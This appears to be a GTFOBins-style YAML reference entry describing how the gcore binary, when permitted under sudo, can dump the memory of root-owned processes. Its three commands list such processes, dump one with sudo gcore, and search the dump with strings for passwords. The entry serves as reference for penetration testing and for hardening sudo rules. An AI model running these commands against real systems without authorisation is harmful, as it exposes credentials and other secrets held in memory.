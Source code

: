 ```yaml
---
description: It may be used to generate core dumps of one or more running programs. This may lead to sensitive information leakage as passwords.
functions:
  sudo:
    - description: If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
    - code: |
        # look for an interesting running process and grab its PID
        ps aux | grep root
        # generate the dump by issuing to gscope the PID
        sudo gcore $PID
        # look for intersting information inside the dump
        strings core.$PID
---
```

